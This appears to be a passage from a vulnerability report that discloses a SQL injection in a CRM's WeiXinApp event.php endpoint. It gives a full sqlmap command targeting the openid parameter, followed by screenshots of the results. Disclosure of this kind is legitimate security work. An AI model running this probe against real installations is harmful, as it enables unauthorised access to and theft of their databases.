 <img width="2530" height="1157" alt="image" src="https://github.com/user-attachments/assets/1e134bad-b874-4354-8744-9d05084b6531" />


## Use the sqlmap tool to detect

python sqlmap.py  -u "http://192.168.8.27:85/crm/WeiXinApp/yunzhijia/event.php?action=get_userid&applicationType=market&openid=1*"  --level 5    --dbms mysql

<img width="2210" height="1156" alt="image" src="https://github.com/user-attachments/assets/230787ff-af4b-49e3-b5bd-52fe5b293447" />

<img width="2322" height="1074" alt="image" src="https://github.com/user-attachments/assets/c6230216-907b-42d3-8aa4-605a6cb539b8" />

<img width="2446" height="963" alt="image" src="https://github.com/user-attachments/assets/9cf3cb38-dcff-4283-93d8-22b08b794e27" />


# The above is the complete content of this vulnerability. Thank you for your review and time!
